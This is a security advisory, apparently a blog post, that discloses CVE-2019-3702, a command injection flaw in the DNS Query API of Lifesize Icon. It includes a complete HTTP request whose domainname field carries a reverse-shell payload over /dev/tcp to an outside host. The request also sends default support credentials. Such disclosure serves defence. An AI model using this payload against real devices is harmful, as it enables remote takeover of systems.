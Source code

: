 ```yaml
---
layout: post
title: "CVE-2019-3702: Remote Code Execution in Lifesize Icon"
date:   2019-03-26 09:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: Lifesize
- Product: Lifesize Icon
- Version: LS_RM3_3.7.0 (2421)
- Vulnerability: Remote Code Execution

# Background

LifeSize Icon is a video collaboration platform and consists of various components, e.q. software, video and phone systems.

From the vendor's website:
"For more than a decade, Lifesize has been at the forefront of video collaboration delivering high-quality technology designed to bring people together. Our focus is on developing market-leading products that deliver easy-to-use and scalable audio, web and video conferencing. We combine an integrated, best-in-class cloud-based conferencing experience, with award-winning, easy-to-use HD camera systems and HD phones so that you can connect to anyone, anywhere. It’s a meeting experience like no other."

# Issue Description

While analyzing the implementation of LifeSize Icon Software, one Remote Code Execution vulnerability has been identified, which can be exploited in order to execute arbitrary commands within the DNS Query address field. This vulnerability can be exploited by authenticated attackers with access to the web interface.

The system provides a JSON API, which exposes various methods like the DNS Query function. This function contains a address field that can be exploited with a remote command execution.

The following HTTP request illustrates this approach:

__HTTP-Request__

~~~ http
POST /rest/request/8cb1a00d113443c6a9a220104bbdea33/Comm_dnsQuery HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101
Firefox/63.0
Accept: */*
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://1.1.1.1/
X-Client: icon-web-client
Authorization: LSBasic c3VwcG9ydDpzdXBwb3J0
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 142
Connection: close

{"call":"Comm_dnsQuery","params":{"type":"A","domainname": "1.1.1.2; 0<&196;exec 196<>/dev/tcp/1.1.1.2/4446; sh <&196 >&196 2>&196"}}
~~~

# CVE

[CVE-2019-3702](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-3702)

# CVSSv3 Base Score

CVSS Base Score: __8.8__

CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

# Credit

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Joshua Lehr

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

